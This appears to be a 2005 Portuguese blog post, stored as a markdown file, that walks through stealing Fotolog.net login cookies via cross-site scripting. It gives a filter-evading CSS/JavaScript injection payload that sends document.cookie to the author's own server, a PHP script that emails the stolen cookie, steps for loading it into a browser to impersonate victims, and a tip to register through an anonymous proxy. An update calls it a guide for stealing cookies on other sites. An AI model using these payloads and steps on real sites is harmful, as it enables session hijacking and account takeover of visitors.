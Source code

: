```yaml
---
title: Falha no Fotolog.net
type: post
date: 2005-02-17T16:22:47+00:00
excerpt: A descrição de como descobri que consegui pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile num Fotolog.net
url: /2005/02/falha-no-fotolognet/
categories:
  - Dicas
tags:
  - cookies
  - dica
  - falha
  - fotolog
  - hacker
  - javascript
  - web
  - xss

---
```

Segue a descrição de como descobri que consigo pegar o cookie do Fotolog.net de qualquer pessoa que entra no meu profile, e com isso, poder:

  * Adicionar comentários em qualquer fotolog como a pessoa
  * Remover comentários do fotolog da pessoa
  * Adicionar/remover FF list
  * Ver e-mail de cadastro da pessoa

**[update]** Parece que isso não funciona mais hoje. De qualquer maneira, é um bom guia (acho que tá bem detalhado) para _roubar cookies_ de vários outros sitemas que tenham falhas como esta (e não são poucos). **[/update]**

Nos últimos dias, alguém pegou a senha do Fotolog.net de um amigo meu e ele me pediu para que eu tentasse recuperar. Não consegui descobrir senha. Porém, usando furos do Fotolog.net e do Internet Explorer, descobri que consigo estar loggado com qualquer usuário que entre no meu perfil! Já que é preciso escrever a senha em cada página do Fotolog.net (upload, mudar profile, etc.) a única coisa que posso fazer loggado como a pessoa é escrever comentários, mas mesmo assim já é uma coisa estranha que merece a atenção do administrador do Fotolog.net (para o qual irei enviar um e-mail). Irei postar um “passo-a-passo” de como pegar o cookie de login do Fotolog.net e com isto, loggar como a pessoa que perdeu esse cookie.

O cookie do Fotolog.net dura mais de um ano… Isso é um problema grave de segurança, mas não é utilizando esta falha que faço tudo. O que eu fiz foi um JavaScript dentro de um CSS redirecionar para uma página PHP com função mail que me envia a função document.cookie do JavaScript que roda no cliente na página do Fotolog.net! É um pouco difícil de explicar, mas não tão complicado. Meu objetivo postando aqui não é incentivar que as pessoas façam isso (eu só fiz comigo mesmo testando), mas incentivar os que possuem conta no Fotolog.net usarem browsers decentes (como Firefox ou Opera) ou não clicar em profiles de estranhos. Tenho certeza de que hackers de verdade não usarão isto para o mal, mas sim para fins de aprendizagem, como eu fiz; mas parece que vários newbies por aí se acham e se acharão o máximo postando comentários como outras pessoas com a minha “receita de bolo”! Por esses, preciso lamentar e mandar ler a definição de hacker no Jargon File.

A primeira barreira que tive que ultrapassar foi que só 500 brasileiros por dia podem se registrar no Fotolog.net! Bom… Eu tava ansioso pra tentar fazer isso e já que eu não tinha tempo a perder, entrei no site [Public Proxy Servers][1] e usando um proxy high-anonimity do Vietnã me registrei no Fotolog.net… Perfeito! Apareceu que nenhum visitante do Vietnã tinha se cadastrado no dia.

Então, fui até o meu profile e no endereço do meu site eu tentei colocar aspas. Percebi que funcionou, então testei um código de bastante fácil entendimento:

```
#" style="background:url(javascript:location.href='http://tableless.tiagomadeira.net/foo.php'+escape(document.cookie))
```

Mas não funcionou porque o Fotolog.net não permite “javascript” na frase. Então após alguns testes cheguei ao:

```
#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))
```

_OBS.: Tenho recebido e-mail de pessoas dizendo que o não cabe… O meu também não cabia, mas é só questão de diminuir o endereço._

Este código só funciona porque o _Internet Explorer_ é problemático! Não tem nada a ver um _JavaScript_ dentro de uma url de fundo e ainda ir para este endereço! E o [Fotolog.net][2] também tem um bug seríssimo porque não deveria poder se usar aspas no endereço de um site! Daí no meu profile aparece no lugar do endereço da minha página:

```
<a href="#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))">#" style="background:url(ja       vas       cript:location.href=%27 http://www.tiagomadeira.net/r.php?c=%27       +escape(document.cookie))</a>
```

Bom, depois disso basta fazer uma página PHP que passe este valor do c para um banco de dados ou e-mail (no meu caso, preferi por e-mail mesmo). Criei uma página no meu /r.php com:

```php
< ?php
$cookie=$_GET["c"];
mail("meu@email", "Presente pra você!", "$cookie");
Header("Location: http://tableless.tiagomadeira.net");
?>
```

E o último problema que enfrentei então foi colocar este cookie no meu Firefox. Depois de vários testes, descobri que eu podia editar os cookies do meu Firefox. Para isto abri meu _>~/.mozilla/firefox/profiles/??????.default/cookies.txt_ e modifiquei o cookie para o que eu recebi no e-mail. E finalmente loggado!

#### Vou tentar simplificar o “algoritmo”:

  * A pessoa está loggada (sempre, pois o cookie do fotolog.net é gigantesco) e entra no meu perfil.
  * Meu perfil pega o cookie do Fotolog.net deste computador (que precisa estar usando Internet Explorer) e me envia via a função mail do PHP.
  * Eu troco o cookie do meu Firefox pelo que eu recebi no e-mail e com isto fico loggado como a pessoa!

Interessante, né?

Bom, como já havia dito, isto foi apenas para fins de aprendizagem e descobri tudo isto justamente porque algum lammer pegou a senha de um amigo meu, mas espero que as pessoas aprendam a lição para não se tornarem as vítimas deste _“golpe”_.

**Eu conheço três formas para se tornar resistente a esse golpe:**

  * Não utilizar Internet Explorer. Sugiro [Firefox][3] (o que eu uso), [Opera][4], [Konqueror][5], entre outros…
  * Não utilizar [Fotolog.net][2]. Sugiro [Flickr][6].
  * Não clicar em profiles de estranhos.

Bom… É isso aí.

Aprendi muito com isto e por isso compartilho este conhecimento neste post para que outros também possam aprender. Quem puder, divulgue para seus amigos para que eles não sejam vítimas desse tipo de coisa.

 [1]: http://www.publicproxyservers.com
 [2]: http://www.fotolog.net
 [3]: http://www.getfirefox.com
 [4]: http://www.opera.com
 [5]: http://konqueror.kde.org
 [6]: http://www.flickr.com

